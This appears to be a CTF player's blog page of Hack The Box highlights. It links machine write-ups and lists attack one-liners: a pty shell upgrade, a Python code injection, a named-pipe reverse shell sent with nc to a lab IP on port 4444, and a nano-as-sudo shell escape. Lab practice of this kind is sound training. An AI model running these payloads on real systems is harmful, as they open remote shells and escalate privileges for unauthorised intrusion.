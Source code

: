```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
---
```


# Writeups
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
__import__("os"); os.system("pwd")
```

**python code injection w/import and backpiping**

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

![test image](/img/craft/developer.png)

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
Where ^R^X is ctrl+R and ctrl+X.
